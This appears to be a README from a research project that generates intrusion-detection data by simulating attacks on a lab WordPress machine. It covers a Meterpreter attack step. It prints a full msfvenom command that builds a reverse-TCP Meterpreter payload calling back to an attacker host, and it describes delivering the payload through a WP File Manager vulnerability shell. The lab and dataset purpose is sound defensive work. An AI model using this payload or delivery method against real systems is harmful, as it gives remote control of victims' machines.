 # **Meterpreter Shell**

## **Table of Contents**

* **[Explaining the Attack](#explaining-the-attack)**
* **[How to Use](#how-to-use)**
  * **[Configurations](#configurations)**
  * **[Interactive Mode](#for-interactive-mode)** 

<br/>

## **Explaining the Attack**

This attack simulates a Social Engineering attack, where the user is lead to execute a poisoned file, since we only care about the system calls produced from actual execution of the binary we implemented the attack in the following way:

* Use [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) to create the payload, in our case: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f elf -o /tmp/shell.bin`
* Use the reverse shell through the Wp File Manager vulnerability in order to download the file to the victim. This step initially might seem like it doesn't make any sense since we're supposed to simulate and Social Engineering attack, however we use this reverse shell for 2 reasons:
  * Allow the attacker to upload the correct version of the payload, so that if you, for any reason, need to change it, it's much more practical.
  * For the connection to be established, the meterpreter listener must be running when the binary is executed, or at least, be executed immediately after. To avoid having the user jumping between VMs, once the binary is downloaded the script will allow the user to execute the file through the reverse shell by simply pressing `Enter`.
* The commands needed to create the meterpreter listener are presented through the script to the user.

By doing this, the user will control a meterpreter session on the victim system, and is free to mess around with it.

## **How to Use**

<br/>

This exploit can be ran in **interactive** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for Meterpreter shell attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 2
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>

### **For interactive mode:**
``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

As mentioned above, this will show the user te necessary commands needed to create a meterpreter listener and then allow the execution of the binary, in case the session dies.

<br/>
